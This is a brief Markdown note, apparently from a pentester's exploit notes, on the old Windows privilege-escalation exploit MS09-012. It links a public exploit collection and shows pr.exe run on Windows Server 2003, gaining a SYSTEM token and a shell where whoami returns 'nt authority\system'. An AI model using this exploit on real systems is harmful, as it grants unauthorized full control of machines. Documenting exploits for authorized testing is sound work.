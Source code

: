 # MS09-012

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS09-012

## 動作確認済み

#### pr.exe

```
C:\WINDOWS\Temp>pr.exe "cmd.exe"
pr.exe "cmd.exe"
/xxoo/-->Build&&Change By p 
/xxoo/-->This exploit gives you a Local System shell 
/xxoo/-->Got WMI process Pid: 1820 
begin to try
/xxoo/-->Found token SYSTEM 
/xxoo/-->Command:cmd.exe
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\Temp>whoami
whoami
nt authority\system
```
